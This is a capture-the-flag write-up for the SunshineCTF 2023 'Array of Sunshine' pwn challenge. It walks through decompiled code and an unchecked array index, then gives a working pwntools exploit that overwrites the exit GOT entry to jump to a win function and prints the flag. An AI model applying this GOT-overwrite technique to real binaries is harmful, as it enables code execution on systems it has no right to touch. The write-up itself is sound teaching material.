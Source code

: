 # Array of Sunshine

## Description

> Sunshine on my shoulders makes me happy...
> Haiku to Sunshine - ChatGPT
> ☀️ A sunbeam kisses 🍊
>
> Golden warmth in every slice 🌞
>
> Nature's sweet embrace 🌼
>
> Server info
> nc chal.2023.sunshinectf.games 23003
>
> Attachment: sunshine

## Flag

sun{a_ray_of_sunshine_bouncing_around}

## Solution

```console
root@kali:~/ctf/SunshineCTF_2023/pwn/Array_of_Sunshine# checksec
[*] '/root/ctf/SunshineCTF_2023/pwn/Array_of_Sunshine/sunshine'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

root@kali:~/ctf/SunshineCTF_2023/pwn/Array_of_Sunshine# readelf -s sunshine
(snip)
    38: 000000000040128f    61 FUNC    GLOBAL DEFAULT   14 win
(snip)
```

`win` function decompiled with Ghidra:

```c
void win(void)

{
  long lVar1;
  long in_FS_OFFSET;

  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  system("cat flag.txt");
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

`win` function is defined but not called anywhere.
I guess it's expected ret2win in this challenge.

`basket` function decompiled with Ghidra:

```c
void basket(void)

{
  long in_FS_OFFSET;
  int local_34;
  undefined *local_30;
  undefined *local_28;
  long local_20;
  undefined8 local_18;
  long local_10;

  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  printf("\nWhich fruit would you like to eat [0-3] >>> ");
  __isoc99_scanf(&DAT_00402e46,&local_34);
  printf("Replace it with a new fruit.\n",*(undefined8 *)(fruits + (long)local_34 * 8));
  printf("Type of new fruit >>>");
  __isoc99_scanf(&DAT_00402e7d,fruits + (long)local_34 * 8);
  local_30 = &DAT_00404020;
  local_28 = &DAT_00404038;
  local_20 = _DAT_00404020;
  local_18 = _DAT_00404038;
  if ((printf_sym == _DAT_00404020) && (printf_sym == _DAT_00404020)) {
    if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
      __stack_chk_fail();
    }
    return;
  }
                    /* WARNING: Subroutine does not return */
  exit(-1);
}
```

User Input:

- (1) input numbers after `Which fruit would you like to eat [0-3] >>>` is output
- (2) input 24-character string after `Type of new fruit >>>` is output

Behavior:

- A `fruits` is defined in Heap Memory and initialized as `{"Oranges", "Apples", "Pears", "Bananas"}`
- `fruits + (1) = (2)`
- input value (1) is not verified so it's possible to input negative value e.g. `-1`

```gdb
gdb-peda$ b *basket+183
Breakpoint 1 at 0x401609

gdb-peda$ r
Starting program: /root/ctf/SunshineCTF_2023/pwn/Array_of_Sunshine/sunshine

(snip)

Which fruit would you like to eat [0-3] >>> 0
Replace it with a new fruit.
Type of new fruit >>>PWNAPPLE

(snip)

gdb-peda$ find PWNAPPLE
Searching for 'PWNAPPLE' in: None ranges
Found 1 results, display max 1 items:
sunshine : 0x405080 ("PWNAPPLE")
gdb-peda$ vmmap
Start              End                Perm      Name
0x00400000         0x00401000         r--p      /root/ctf/SunshineCTF_2023/pwn/Array_of_Sunshine/sunshine
0x00401000         0x00402000         r-xp      /root/ctf/SunshineCTF_2023/pwn/Array_of_Sunshine/sunshine
0x00402000         0x00404000         r--p      /root/ctf/SunshineCTF_2023/pwn/Array_of_Sunshine/sunshine
0x00404000         0x00405000         r--p      /root/ctf/SunshineCTF_2023/pwn/Array_of_Sunshine/sunshine
0x00405000         0x00406000         rw-p      /root/ctf/SunshineCTF_2023/pwn/Array_of_Sunshine/sunshine
(snip)
gdb-peda$ tele 0x00405000 50
(snip)
0064| 0x405040 --> 0x4010b6 (<exit@plt+6>:      push   0x8)
(snip)
0128| 0x405080 ("PWNAPPLE")
0136| 0x405088 --> 0x402000 --> 0x20001
0144| 0x405090 --> 0x40203a --> 0x4200007372616550 ('Pears')
0152| 0x405098 --> 0x402041 --> 0x73616e616e6142 ('Bananas')
(snip)
```

`exit(-1)` is called at the end of the `backet` function, so input `exit - fruits` to (1) due to overwrite the exit GOT and input `win` address to (2).
then it's enable to jump to the `win` function.

solver.py

```python
from pwn import *

elf = ELF("sunshine")

win = elf.sym["win"]
fruits = elf.sym["fruits"]
exit = elf.got["exit"]

log.debug(f"win: {hex(win)}")
log.debug(f"fruits: {hex(fruits)}")


def conn() -> pwnlib.tubes:
    if args.REMOTE:
        io = remote("chal.2023.sunshinectf.games", 23003)
    elif args.GDB:
        gdbscript = """
        b *basket+178
        c"""
        io = gdb.debug([elf.path], gdbscript=gdbscript)
    else:
        io = elf.process()

    return io


def main():
    io = conn()

    io.sendlineafter(
        b"Which fruit would you like to eat [0-3] >>>",
        str(((elf.got["exit"] - elf.sym["fruits"]) // 8)).encode(),
    )
    io.sendlineafter(b"Type of new fruit >>>", p64(win))
    io.interactive("")


if __name__ == "__main__":
    main()
```

```console
root@kali:~/ctf/SunshineCTF_2023/pwn/Array_of_Sunshine# python3 solver.py REMOTE
[*] '/root/ctf/SunshineCTF_2023/pwn/Array_of_Sunshine/sunshine'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to chal.2023.sunshinectf.games on port 23003: Done
[*] Switching to interactive mode
sun{a_ray_of_sunshine_bouncing_around}

Which fruit would you like to eat [0-3] >>>
[*] Closed connection to chal.2023.sunshinectf.games port 23003
```
